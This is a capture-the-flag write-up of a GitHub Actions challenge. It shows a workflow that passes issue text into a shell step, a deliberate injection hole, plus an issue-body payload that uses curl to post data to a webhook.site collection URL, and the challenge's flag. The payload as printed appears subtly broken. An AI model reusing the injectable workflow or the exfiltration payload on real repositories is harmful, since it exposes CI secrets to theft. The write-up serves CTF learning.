 # Geet-into-action

## The Problem

Points: 500

Rating:easy

Author:kigibek

Flavor Text:
```
If you want to develop a software faster you need to geet into action! Automate everything! Checkout how we are automating everything through issues: https://github.com/hackpack-ncsu/geet-into-action
```

![start.png](start.png)


## Solution

head to the provided url: https://github.com/hackpack-ncsu/geet-into-action

looked into the repositories scripts and found two .ymls that appear to describe CD/CI scripts that take advantage of GitHub automation systems to build and manage code deployment, dependency upgrades and many more standard tasks.

update-issue.yml:
```
name: Trigger workflow with issue

on: [issues]
permissions:
  issues: write
jobs:
  start:
    runs-on: ubuntu-latest
    timeout-minutes: 2
    steps:
    - run: echo "${{ secrets.FLAG1 }}" > flag
    - run: 'echo "${{ github.event.issue.body }}" > tmpfile'
  end:
    if: ${{ always() }}
    runs-on: ubuntu-latest
    steps:
    - run: echo https://api.github.com/repos/${{github.repository}}/issues/${{github.event.issue.number}}
    - run: |
        curl \
        -X PATCH \
        -H "Authorization: token ${{ github.token }}" \
        -H "Accept: application/vnd.github.v3+json" \
        https://api.github.com/repos/${{github.repository}}/issues/${{github.event.issue.number}} \
        -d '{"title":"This is new title", "body": "action run finished"}'

```

clean-workflow-run.yml:

```
name: Clean the logs of the run
on:
  # Allows you to run this workflow manually from the Actions tab
  workflow_run: 
    workflows: [Trigger workflow with issue]
    types:
      - completed

# A workflow run is made up of one or more jobs that can run sequentially or in parallel
jobs:
  # This workflow contains a single job called "build"
  clean:
    # The type of runner that the job will run on
    runs-on: ubuntu-latest

    # Steps represent a sequence of tasks that will be executed as part of the job
    steps:
      # Checks-out your repository under $GITHUB_WORKSPACE, so your job can access it
      - uses: actions/github-script@v6
        with:
          script: |
            github.rest.actions.deleteWorkflowRun({
              owner: context.repo.owner,
              repo: context.repo.repo,
              run_id: context.payload.workflow_run.id
            })
```


the key thing here that these tasks look to parse new issues posted to the repository and after doing this wipe their visible details and clear the log files so you cant see what was done on the container github launces to execute the tasks. 

the parsing appears to point to a command injection of some kind that needs to get access to environment vars by exporting the flag file found at the start of each task. "echo "${{ secrets.FLAG1 }}" > flag"

I found that the issues section was really active and that if watched closely enough you could read out the attempted injections the other teams are trying. from this i learned a few things. first what error-ed on the back-end, what types of commands might work and most importantly there are websites allowing you to setup web server responders anonymously, quickly and without the need for deploying your own system to catch the outgoing data we need to trick the target system into sending to us. 


Here is what the issues look like once the script runs:

![issues.png](issues.png)

The many issues posted from other teams at work: 

![issues2.png](issues2.png)


I settled on trying to cat the flag file and posting it to my new favorite website https://webhook.site so I can tail the result

cat ./flag
```
$(curl -X POST -H “Content-Type: text/plain" -d "/usr/bin/cat flag" https://webhook.site/656bca6f-7e89-4917-91a5-01cf4919c4a6?)
```

![bestissueever.png](bestissueever.png)


and we have posts

![postedflag.png](postedflag.png)



## Flag

```
flag{b3_c@reful_with_@ct10n$}
```

## Final Notes

while I definitely used "alternately available methods of research"(cheated) to get this one I find github as a challenge for CTFs to be a fantastic idea! its was more real world applicable and showed that these events don't always need to be in puzzle formats.

